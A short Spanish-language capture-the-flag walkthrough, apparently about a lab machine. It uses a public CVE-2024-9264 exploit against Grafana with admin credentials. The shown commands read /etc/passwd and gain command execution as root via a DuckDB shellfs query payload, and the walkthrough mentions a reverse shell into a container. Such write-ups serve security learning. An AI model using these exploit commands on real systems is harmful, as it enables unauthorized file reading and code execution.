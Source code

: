 Descubrimos la version de grafana
![[Pasted image 20250511120324.png]]

https://github.com/nollium/CVE-2024-9264

Tenemos Arbitrary file read  !
```bash
(venv) ➜  CVE-2024-9264 git:(main) python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r  -f /etc/passwd  http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin

```

Tambien tenemos RCE!

```bash
(venv) ➜  CVE-2024-9264 git:(main) python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r  -c whoami  http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```
Mandamos una revshell pero estamos en un docker
![[Pasted image 20250511121859.png]]
